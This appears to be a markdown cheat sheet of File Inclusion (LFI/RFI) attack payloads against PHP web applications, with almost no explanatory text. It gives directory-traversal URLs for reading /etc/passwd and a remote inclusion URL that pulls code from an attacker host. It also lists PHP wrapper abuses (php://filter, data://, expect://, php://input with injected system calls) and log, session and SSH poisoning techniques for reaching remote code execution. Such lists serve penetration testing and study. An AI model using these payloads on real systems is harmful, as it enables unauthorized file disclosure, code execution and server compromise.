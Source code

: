 ## File Inclsusion (LFI/RFI)

![](https://miro.medium.com/v2/resize:fit:644/1*UPMlwBWgKMSUzSvY5mt5uw.png)

**What is File Inclusion  Attack?**

A file inclusion vulnerability is a type of web vulnerability that is most commonly found to affect web applications that rely on a scripting run time.

**General Payloads**

```
http://vulnerable-web.com/index.php?page=../../../etc/passwd (Read /etc/passwd)
http://vulnerable-web.com/index.php?page=/etc/passwd (Read /etc/passwd)
http://example.com/index.php?page=/etc/passwd%00 (Read /etc/passwd) [Fixed in PHP 5.4 and later versions]
http://example.com/index.php?page=..././..././..././..././..././..././..././..././etc/passwd (Bypass ../ Filters)
http://example.com/index.php?page=../../../etc/passwd (3 dots in Linux)
http://example.com/index.php?page=http://attacker.net/eval.php.txt (Remote File Inclusion)
```

# PHP wrappers & protocols

**php://filter**

```
http://example.com/index.php?page=php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
http://example.com/index.php?page=php://filter/convert.iconv.utf-8.utf-16/resource=index.php
http://example.com/index.php?page=php://filter/read=string.rot13/resource=index.php
```

**data://**

```
http://example.com/index.php?page=data://text/plain;base64,%50%44%39%77%61%48%41%67%63%33%6c%7a%64%47%56%74%4b%43%64%73%63%79%63%70%4f%79%41%2f%50%67%3d%3d (Useful For WAF bypass)
http://example.com/index.php?page=data:text/plain,%3c%3f%70%68%70%20%70%68%70%69%6e%66%6f%28%29%3b%20%3f%3e (Will print php info)
```

**expect://**

```
http://example.com/index.php?page=expect://ls [For fopen Function]
```

**php://input**

```
curl -X POST -d "<?php system('ls'); ?>" http://example.com/index.php?page=php://input
```

**php://fd/**

```
http://example.com/index.php?page=php://fd/[0-9] (Opened Files In Current Process)
```

**zip://**

```
http://example.com/index.php?page=zip://path-to-zip-file/%23shell.php
```

# Web Service Software logs Poisoning

**Apache2**

```
/var/log/apache2/access.log
/var/log/apache/access.log
/var/log/apache2/error.log
/var/log/apache/error.log
/usr/local/apache/log/error_log
/usr/local/apache2/log/error_log
/var/log/httpd/error_log
```

**Nginx**

```
/var/log/nginx/access.log
/var/log/nginx/error.log
```

# Process Poisoning

```
/proc/self/environ
/proc/self/status
/proc/[id]/fd/[id]
/proc/self/[id]
```

# LFI to RCE via uploaded file

```
http://example.com/index.php?page=./uploads/shell.png
```

# SSH log Poisoning

```
$ ssh '<?php phpinfo(); ?>@example.com'
http://example.com/index.php?page=/var/log/auth.log
```

# PHP Session Poisoning

```
 /var/lib/php/sess_[PHPSESSID]
/tmp/sess_[PHPSESSID]
/var/lib/php/sessions/sess_[PHPSESSID]
```

# PHP session.upload_progress 

```
curl --cookie "PHPSESSID=attacker" -F "PHP_SESSION_UPLOAD_PROGRESS=<?php phpinfo(); ?>" -F "file=@test.png" http://example.com/
#then view session path like /var/lib/php/sess_attacker
```

# Best walkthrough ever
[Click here](https://www.facebook.com/100035201946522/posts/pfbid02zghX3gn5cgjqNtcBQRdzzSoVf5kECpjCqg19t4JRmxXqgmbpV6f551cwCyFMgUq7l/?app=fbl)
